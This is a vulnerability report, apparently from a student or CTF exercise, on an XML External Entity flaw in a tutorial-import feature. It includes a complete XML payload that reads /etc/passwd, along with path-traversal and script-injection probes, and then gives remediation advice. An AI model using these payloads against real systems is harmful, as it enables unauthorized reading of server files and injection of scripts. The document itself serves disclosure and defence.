

## Description

This is a Local File Access (LFA) vulnerability identified in the feature that allows importing an XML file, which is then read on the "my_tutorial" page. The XML parsing does not adequately handle external entities, leading to the potential for XML External Entity (XXE) injection.

## Exploitation

1. **Log in to the application.**
2. **Navigate to the import page:** Go to [Import Tutorial Page](http://zxfgddua.3xploit.me/import_tutorial/).
3. **Upload the following XML file:**
```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<tutorial>
  <title>mytuto</title>
  <creation_date>2024-05-04 07:47:25.636945+00:00</creation_date>
  <published>True</published>
  <text_content>
    <bodyline>
      `&xxe;`
    </bodyline>
    <creation_date>2024-05-04 07:47:25.685583+00:00</creation_date>
  </text_content>
  <picture_content>
    <picture>uploads/2024/05/04/../../../../../etc/<script>alert(1)</script></picture>
    <creation_date>2024-05-04 07:47:25.691269+00:00</creation_date>
  </picture_content>
  <text_content>
    <bodyline>dec stip<script>alert(1)</script></bodyline>
    <creation_date>2024-05-04 07:47:25.696323+00:00</creation_date>
  </text_content>
  <picture_content>
    <picture>uploads/2024/05/04/kittyIcon_gXxlMab.png</picture>
    <creation_date>2024-05-04 07:47:25.701931+00:00</creation_date>
  </picture_content>
</tutorial>
```
4. **Inject a system call in the DOCTYPE to read a file:** This XML payload includes an entity declaration that references the `/etc/passwd` file.
5. **View the imported content:** The content of the `/etc/passwd` file is displayed on the "my_tutorial" page.

## PoC

After following the exploitation steps, the `/etc/passwd` file content is revealed:

Here, you can see the leaked content of the `/etc/passwd` file as specified in the exploit.

## Risk

This vulnerability allows attackers to read arbitrary files on the server. The primary risk is to the confidentiality of the company's data, as attackers can access sensitive files, including the application's source code, configuration files, and other sensitive data stored on the server.

## Remediation

Based on the [OWASP XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html), the following steps can be taken to mitigate this vulnerability:

1. **Disable DTDs (External Entities) in the XML parser**: Configure the XML parser to disallow the processing of external entities.
2. **Use a secure XML parser**: Use libraries that handle XML parsing securely by default.
3. **Filter user inputs**: Validate and sanitize all user inputs before processing.
4. **Use less powerful parsers**: If possible, use simpler and less powerful parsers that do not support features that can lead to XXE vulnerabilities, such as JSON parsers.

Example of disabling external entities in Python's `defusedxml` library:
```python
import defusedxml.ElementTree as ET

def parse_xml(xml_string):
    tree = ET.fromstring(xml_string)
    return tree
```

By implementing these measures, you can protect your application from XXE and related vulnerabilities.

# Author
EpitechToulouse-Chocolackteam